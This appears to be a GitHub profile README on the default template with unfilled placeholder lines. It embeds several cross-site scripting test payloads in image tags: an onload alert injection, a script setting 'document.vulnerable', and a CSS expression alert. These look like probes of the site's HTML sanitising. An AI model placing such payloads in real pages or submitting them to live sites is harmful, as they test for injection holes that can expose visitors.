- 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&v=4)
![
<img src="https://avatars.githubusercontent.com/u/92805783?&s=40&v=" alt="!@#$%¨&*()_+=-{}[]?/:;>.<,\|´`^~"/>
<img src="#<frameset onload=alert(123)>&{document.vulnerable=true;};" alt="onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(1)"/>

<img src="<~/XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))>">

<~/XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))>

](()
